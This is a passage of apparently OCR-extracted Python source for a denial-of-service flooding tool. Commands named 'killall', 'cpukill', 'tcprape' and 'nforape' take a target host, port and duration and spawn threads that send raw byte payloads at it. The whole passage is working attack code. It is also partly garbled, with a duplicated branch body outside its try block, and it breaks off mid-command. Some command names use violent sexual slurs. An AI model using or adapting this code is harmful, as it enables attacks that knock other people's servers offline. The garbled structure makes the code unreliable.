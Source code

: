 			except ValueError:
				main()
			except socket.gaierror:
				main()
		elif sinput == "killall":
			try:
				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()
				else:
					sinput, host, timer, port = sin.split(" ")
					socket.gethostbyname(host)
					payload = b"\x00\x02\x00\x2f"
					threading.Thread(target=stdsender, args=(host, port, timer, payload)).start()
					print("\033[31mYour Rocket Been Launched!")
			except ValueError:
				main()
			except socket.gaierror:
				main()
				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()
				else:
					sinput, host, timer, port = sin.split(" ")
					socket.gethostbyname(host)
					payload = b"\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
					threading.Thread(target=stdsender, args=(host, port, timer, payload)).start()
					print("\033[31mYour Rocket Been Launched!")
			except ValueError:
				main()
			except socket.gaierror:
				main()
		elif sinput == "cpukill":
			try:
				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()
				else:
					sinput, host, timer, port = sin.split(" ")
					socket.gethostbyname(host)
					payload = b"\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
					threading.Thread(target=stdsender, args=(host, port, timer, payload)).start()
					print("\033[31mYour Rocket Been Launched!")
			except ValueError:
				main()
			except socket.gaierror:
				main()
		elif sinput == "tcprape":
			try:
				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()
				else:
					sinput, host, timer, port = sin.split(" ")
					socket.gethostbyname(host)
					payload = b"\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
					threading.Thread(target=stdsender, args=(host, port, timer, payload)).start()
					print("\033[31mYour Rocket Been Launched!")
			except ValueError:
				main()
			except socket.gaierror:
				main()
		elif sinput == "nforape":
			try:
